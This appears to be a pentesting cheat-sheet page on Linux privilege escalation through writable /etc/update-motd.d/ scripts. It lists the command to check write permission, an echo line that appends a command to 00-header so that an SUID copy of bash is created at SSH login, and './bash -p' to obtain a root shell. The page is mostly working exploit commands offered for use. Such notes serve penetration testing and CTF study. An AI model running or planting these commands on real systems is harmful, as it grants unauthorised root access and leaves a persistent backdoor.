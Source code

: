 ```yaml
---
title: Update-Motd Privilege Escalation
description: /etc/update-motd.d/ is used to generate the dynamic message of the day (MOTD) that is displayed to users when they log in to the system. If we can modify files listed in the directory,  we can inject malicious script to escalate privileges.
tags:
    - Privilege Escalation
ref:
    - https://security.stackexchange.com/questions/234859/inject-update-motd-d-00-header-to-run-a-script-on-ssh-login
date: 2023-02-17
draft: false
---
```


## Investigation

```bash
ls -al /etc/update-motd.d/
```

If we have permission to modify files in this directory, we can inject arbitrary code and execute when logging in.

<br />

## Exploitation

Run the following code to copy bash binary and give **`suid`** to this file.  
Replace **`<username>`** with your current user name.

```bash
echo "cp /bin/bash /home/<username>/bash && chmod u+s /home/<username>/bash" >> /etc/update-motd.d/00-header
```

After that, log out and log in again with SSH.  The above script should be executed.  
Now execute the following command under **`/home/<username>`**.

```bash
./bash -p
```

We should get a root shell.